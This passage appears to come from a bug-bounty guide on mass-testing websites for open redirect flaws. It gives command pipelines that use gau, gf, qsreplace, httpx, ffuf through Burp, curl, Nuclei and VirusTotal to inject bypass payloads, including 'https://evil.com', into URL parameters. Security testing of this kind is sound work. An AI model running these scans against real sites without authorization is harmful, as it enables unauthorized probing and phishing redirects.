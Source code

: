 This command will test all the custom open redirect bypass payloads from my or.txt list against each URL parameter. If any redirection to Google is detected in the response it will be displayed on the screen.

Or you can also achieve same results using the following method for single and multiple target domains:

 echo target.com -all | gau | gf redirect | uro | while read url; do cat loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com"
subfinder -d target.com -all | httpx-toolkit -silent | gau | gf redirect | uro | while read url; do cat loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com"
Fuzzing with FFuF and Verifying in Burpsuite
ffuf -w redirect_params.txt:PARAM -w loxs/payloads/or.txt:PAYLOAD -u "https://site.com/bitrix/redirect.php?PARAM=PAYLOAD" -mc 301,302,303,307,308 -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0" -x http://localip:8080 -t 10 -mr "Location: http://google.com"
-mc : Match only 301,302,303,307,308 redirect responses.
-mr : Confirm redirect to a malicious domain “Location: http://google.com"
-x: This option is used to proxy FFUF traffic through Burp Suite for manual testing.
-w for wordlist: redirect_param.txt contains all openredirect params and or.txt file contains all openredirect bypass paylaods

After capturing FFUF traffic in Burp Suite, you can use the filter option to display only the 300 series status codes.

for more better filtering you can use burp search option to check only google.com url in response header for more acurate results:


You can also use CURL tool for mass open redirect testing with the following command:

 cat urls.txt | qsreplace "https://evil.com" | xargs -I {} curl -s -o /dev/null -w "%{url_effective} -> %{redirect_url}\n" {}

Testing Using Nuclei Template
You can also use this custom private Nuclei template that automatically appends parameters to subdomain URLs and checks for open redirects.

echo subdomains.txt | nuclei -t openRedirect.yaml -c 30

Using virustotal
You can also use VirusTotal to find URLs with open redirect parameters and test them with the above methods.

https://www.virustotal.com/vtapi/v2/domain/report?apikey=<api_key>&domain=target.com

./virustotal.sh domains.txt | gf redirect

After this you can use the same methods like qsreplace,ffuf,httpx and Burp Suite for further testing.

Using Burpsuite
You can also use Burp Suite to find open redirect vulnerabilities with the following methods:

step 1

Intercept the target response in Burp Suite and send it to “Discover Content” for active crawling on the target domain.
